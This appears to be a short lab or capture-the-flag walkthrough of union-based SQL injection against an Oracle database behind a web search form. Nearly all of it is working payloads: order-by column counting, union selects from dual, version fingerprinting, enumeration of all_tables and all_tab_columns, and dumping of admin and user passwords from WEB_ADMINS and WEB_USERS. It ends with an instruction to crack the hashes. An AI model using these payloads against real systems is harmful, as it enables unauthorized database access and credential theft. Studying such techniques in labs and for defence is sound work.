 ```yaml
---
category: Uncategorized
tags: []
---
```

| Syntax         | Description      |     |
| -------------- | ---------------- | --- |
| ' order by 1-- | no error message |     |
| ' order by 5-- | error message    |     |
| ' order by 4-- | error message    |     |
| ' order by 3-- | no error message |     |

So as of now we know that 3 is the last column which worked, let us prepare the union select statement

```
' union select 1,2,3--
```

Error Message:
>Something went wrong with the search: java.sql.SQLSyntaxErrorException: ORA-00923: FROM keyword not found where expected

>Unlike MySQL Oracle do not allow select statement without from clause. As we have prepared the Union select statement our next task is to check which column is getting printed that we can do by random testing each column one by one by printing the current database name

Testing for columns:
```SQL
' union select 1,2,3 from dual--
```

```SQL
' union select null,null,null from dual--
```

```SQL
' union select '1111',null,null from dual--
```

```SQL
' union select null,'2222',null from dual--
``` 

```SQL
' union select null,null,'3333' from dual--
```

```SQL
' union select user,null,null from dual--
``` 

Finding the version:
```SQL
' union select (select banner from v$version where rownum=1),null,null from dual--
``` 

Finding all table names:
```SQL
' union select table_name,null,null from all_tables--
```

Dumping columns of found table:
```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_ADMINS'--
```

Dumping values of found columns:
```SQL
' union select ADMIN_ID||ADMIN_NAME||PASSWORD,null,null from WEB_ADMINS--
```

```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_CONTENT'--
```

```SQL
' union select AUTHOR||CONTENT_ID||RELEASEYEAR||TITLE,null,null from WEB_CONTENT--
```

```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_USERS'--
```

```SQL
' union select PASSWORD||USER_ID||USER_NAME,null,null from WEB_USERS--
```

Take hash value and crack!
